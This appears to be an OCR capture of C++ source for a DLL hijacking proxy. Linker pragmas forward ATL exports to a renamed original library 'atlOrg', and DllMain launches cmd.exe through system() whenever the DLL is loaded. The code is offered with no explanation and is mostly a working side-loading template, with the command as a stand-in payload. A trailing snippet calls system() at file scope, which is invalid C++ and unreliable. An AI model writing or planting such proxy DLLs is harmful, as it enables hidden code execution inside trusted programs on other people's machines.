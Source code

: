 ```cpp
#pragma comment(linker, "/EXPORT:AtlAxGetHost=atlOrg.AtlAxGetHost,@48")
#pragma comment(linker, "/EXPORT:AtlRegisterClassCategoriesHelper=atlOrg.AtlRegisterClassCategoriesHelper,@49")
#pragma comment(linker, "/EXPORT:AtlIPersistStreamInit_Load=atlOrg.AtlIPersistStreamInit_Load,@50")
#pragma comment(linker, "/EXPORT:AtlIPersistStreamInit_Save=atlOrg.AtlIPersistStreamInit_Save,@51")
#pragma comment(linker, "/EXPORT:AtlIPersistPropertyBag_Load=atlOrg.AtlIPersistPropertyBag_Load,@52")
#pragma comment(linker, "/EXPORT:AtlIPersistPropertyBag_Save=atlOrg.AtlIPersistPropertyBag_Save,@53")
#pragma comment(linker, "/EXPORT:AtlGetObjectSourceInterface=atlOrg.AtlGetObjectSourceInterface,@54")
#pragma comment(linker, "/EXPORT:AtlModuleUnRegisterTypeLib=atlOrg.AtlModuleUnRegisterTypeLib,@55")
#pragma comment(linker, "/EXPORT:AtlModuleLoadTypeLib=atlOrg.AtlModuleLoadTypeLib,@56")
#pragma comment(linker, "/EXPORT:AtlModuleUnregisterServerEx=atlOrg.AtlModuleUnregisterServerEx,@57")
#pragma comment(linker, "/EXPORT:AtlModuleAddTermFunc=atlOrg.AtlModuleAddTermFunc,@58")
#pragma comment(linker, "/EXPORT:AtlSetErrorInfo2=atlOrg.AtlSetErrorInfo2,@59")
#pragma comment(linker, "/EXPORT:AtlIPersistStreamInit_GetSizeMax=atlOrg.AtlIPersistStreamInit_GetSizeMax,@60")
#pragma comment(linker, "/EXPORT:DllGetClassObject=atlOrg.DllGetClassObject,@61")
#pragma comment(linker, "/EXPORT:DllRegisterServer=atlOrg.DllRegisterServer,@62")
#pragma comment(linker, "/EXPORT:DllUnregisterServer=atlOrg.DllUnregisterServer,@63")
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		system("start cmd.exe");
		DisableThreadLibraryCalls(hModule);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
	}

	return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////

```



```c++
#include "pch.h"
#include <stdlib.h>

system("start cmd.exe");
```

